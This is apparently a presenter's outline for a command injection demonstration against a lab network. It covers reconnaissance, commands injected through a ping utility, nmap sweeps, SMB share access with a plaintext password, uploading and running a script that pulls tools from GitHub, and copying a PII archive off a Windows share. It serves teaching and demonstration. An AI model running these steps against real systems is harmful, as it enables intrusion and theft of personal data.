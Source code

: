 Command Injection Demo:
=======================

Academic:
=========
    Dig through DNS
    Port scan IPs
    Interrogate IP
	HTTP Watch/Fiddler/Postman/Wireshark
	Headers can indicate the stack


Commands:
==========
    Login: wier credentials to connect.hackysock.com
    Browse site… Exploratory work
    Over to the ping utility
        note the command injection flaw.
	    whoami
	    pwd
	    cd ../../
	    ls
	    ifconfig -a | grep netmask
	    which nmap
	    nmap -sP 192.168.122.1/24
	    namp -p 135 192.168.122.7
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
====================
    Upload file: Note the path description
	Figure out where uploads go
	Upload script
	CHMOD script
		chmod 775 ../../hackable/uploads/pull_scripts.sh
	Execute script
		../../hackable/uploads/pull_scripts.sh
	Show all the scripts that were pulled down from GitHub

Drop to Shell:
=================
Show rest of demo and malware deployment.\
	Execute pii script\
	Show pii data pulled from windows machine\
    Show Roger DOC\
        smbclient '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3
    pull roger doc at CLI\
        smbclient '//192.168.122.7/Private_Files' -c 'lcd /var/tmp; get PII.zip' -W HACYSOC -U wier%frantic-Folly3
    Push new DOC to FileShare\






Wrap up:
========

Narrative